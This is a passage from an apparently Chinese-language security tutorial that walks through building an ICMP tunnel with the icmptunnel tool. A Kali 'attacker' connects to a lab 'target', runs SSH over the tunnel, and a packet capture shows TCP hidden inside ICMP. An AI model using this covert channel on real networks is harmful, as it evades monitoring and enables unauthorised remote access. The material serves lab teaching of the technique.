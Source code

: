 ![image-20221031110457524](隧道应用/image-20221031110457524.png)	



进入icmptunnel文件夹执行如下命令, 在攻击机建立虚拟网卡并分配IP

```
root@kali:~/桌面/icmptunnel# ./icmptunnel -s
opened tunnel device: tun1
```

```
root@kali:~/桌面/icmptunnel# ifconfig tun0 10.0.0.1 netmask 255.255.255.0
root@kali:ifconfig
```

> 注意: 分别用两个Shell执行以上两行命令

![image-20221031211600031](隧道应用/image-20221031211600031.png)	



目标主机输入如下命令连接服务端并分配IP, 连接成功会显示"connection established"

```
root@ubuntu:/home/xiaodi/Desktop/icmptunnel# ./icmptunnel 192.168.47.134
opened tunnel device: tun0
connection established.
```

```
root@ubuntu:/home/xiaodi# ifconfig tun0 10.0.0.2 netmask 255.255.255.0
root@ubuntu:ifconfig
```

![image-20221031211632081](隧道应用/image-20221031211632081.png)	



完成以上步骤则代表隧道建立完毕, 可以在攻击机(服务端)使用ssh连接目标主机(客户端)

![image-20221031211858403](隧道应用/image-20221031211858403.png)	



当然客户端也可以连接服务端

![image-20221031212006843](隧道应用/image-20221031212006843.png)	



### 抓包分析

kali机用Wireshark抓取eth0网卡的流量, 可发现所有的TCP流量都封装至ICMP流量中

![image-20221031212450719](隧道应用/image-20221031212450719.png)



抓取tun0网卡的流量, 数据包都是TCP或SSH的, 也就是说TCP流量是通过tun0进行点对点之间的传输			

![image-20221031213109347](隧道应用/image-20221031213109347.png)
